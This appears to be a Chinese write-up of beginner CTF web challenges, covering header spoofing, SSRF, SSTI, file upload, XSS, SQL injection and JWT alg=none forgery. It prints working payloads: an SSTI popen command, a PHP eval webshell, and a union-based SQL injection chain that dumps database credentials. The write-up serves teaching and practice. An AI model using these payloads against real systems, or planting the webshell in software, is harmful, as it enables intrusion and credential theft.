# Web

## Do_you_know_f12?

点击F12，在源代码中可以看到flag



## Executor

主要是考察linux的命令，没有任何waf，



查看根目录





## ezphp

第一关要求get方式给var1传值，并且不能是数字，但是接下来的if又要求var1是整数，这里可以通过数组的方式来绕过


第二关是一个简单的php弱类型比较+md5碰撞,直接搜0e开头的md5即可



## Hello HTTP

第一关get传参，直接用浏览器url地址栏传即可



接下来是post传参，我们使用yakit





抓到包之后把数据包改为post包



第二关：



一般校验来源是利用X-Forwarded-For头，我们设置一下



第三关：只有r00t专用的浏览器r00tbrowser才能访问哦

表示客户端的浏览器的头是User-Agent，我们修改为r00tbrowser即可



第四关：等等，你是哪来的，难道你不是从https://www.r00team.cc过来的吗?

这关校验的是来源，控制来源的头是Referer



第五关：



校验身份，一般Cookie使用来控制用户的身份的，根据描述我们可以设置



## SSRF

ssrf是一种十分常见且危害较大的漏洞，具体漏洞详情可以自行Google



这道题会访问你输入的url地址，解法不唯一，我们这里使用file协议来读取本地文件



## SSTI

关于ssti，这里给出三篇参考文章

[1. SSTI（模板注入）漏洞（入门篇） - bmjoker - 博客园](https://www.cnblogs.com/bmjoker/p/13508538.html)

[SSTI模板注入 | Antel0p3's blog](https://antel0p3.github.io/2023/10/20/ssti/)

[超详细SSTI模板注入漏洞原理讲解_ssti注入-CSDN博客](https://blog.csdn.net/qq_61955196/article/details/132237648)

当然，文章很多，大家也可以自行查找



这道题很显然存在ssti漏洞，因为不存在任何waf，大家只需要根据文章的payload打就可以



```
 {{lipsum.__globals__.__getitem__("os").popen("cat /flag").read()}}
```

payload很多，这里只是给出其中一个

## upload

一道十分基础的文件上传题目，我们可以通过上传一句话木马与服务器建立连接，获取权限，也就是常说的getshell

```php
<?php @eval($_POST['cmd']);?>
```

上传成功之后，可以直接访问上传的木马来传参执行命令



也可以使用蚁剑等webshell管理工具，连接shell


## xss

关于xss：[XSS由浅入深-先知社区](https://xz.aliyun.com/news/17955)

这道题十分简单，如果你尝试xss的payload就会发现

```
<script>alert(1)</script>
```




## XXE

关于xxe：[从XML相关一步一步到XXE漏洞-先知社区](https://xz.aliyun.com/news/6483)

这里使用常见的payload即可



ez_sql

进入题目是一个登陆界面，随便尝试登陆，结果发现以admin为用户名的时候居然直接给了我们密码（一定不是出题人的失误吧）但是我们用给的密码登陆后并没有发现有flag



题目上说是sql注入，所以我们首先来找一找注入点

发现用户名输入1’时报错而输入1''不报错

初步确定注入点在用户名而且为单引号闭合。

接着来判断字段数目




1' order by 3#

字段数目为3

再来看哪些字段显示出来了

1' union select 1,2,3#


发现2和3的位置回显出来了，于是我们可以逐步爆出数据库名，表名，字段名，字段内容

1' union select 1,2,database()#



1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() #



1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='user' #

!

1' union select 1,2,group_concat(id,'-',username,'-',password) from user #



然而做到这一步并没有发现有flag的踪影，于是我们可以开始思考一个问题，database()这个我们常用的函数究竟有什么作用，其实database()是用来显示当前连接的数据库的名称，那如果我们有多个数据库呢，用这个函数就看不到其他数据库的名称，所以这时候就需要直接从schema表中获取所有的数据库

1' union select 1,2,group_concat(schema_name) from information_schema.schemata#



发现存在另一个ctf_flags的表，很明显我们的flag就在其中，重复一遍刚才的步骤即可得到flag。

1' union select 1,2,flag_value from ctf_flags.flag#（ctf_flags.flag）代表ctf_flags表中的flag



## ez_jwt

进入后有一个登陆界面

但是不知道账号密码 f12后提示我们只有admin可以获取flag，并提示抓包

随便输入账号密码抓包后可以看到在响应中存在提示Login failed, but check the network traffic...，并且给出了token



根据题目的jwt，我们先去学习一下什么是jwt

发现jwt是一种用于验证用户身份的数据

JWT 的三个部分依次如下。

> - Header（头部）
> - Payload（负载）
> - Signature（签名）

写成一行，就是下面的样子。

> ```javascript
> Header.Payload.Signature
> ```

前面两部分仅仅是base64编码后的内容，而第三部分才存在数字签名。

但是很巧的是，这道题中的jwt刚好只有前两部分的内容，第三部分为空，也就是说我们只需要base64接吗即可知道jwt的内容。同样也可以用jwt.io快速解码[JSON Web Tokens - jwt.io](https://www.jwt.io/)



发现alg(algorithm)的位置为none，也就是说没有进行任何加密，而username的位置是guest，所以我们只需要将guest改为admin即可



在这样的jwt下访问/flag，就可以得到flag了。


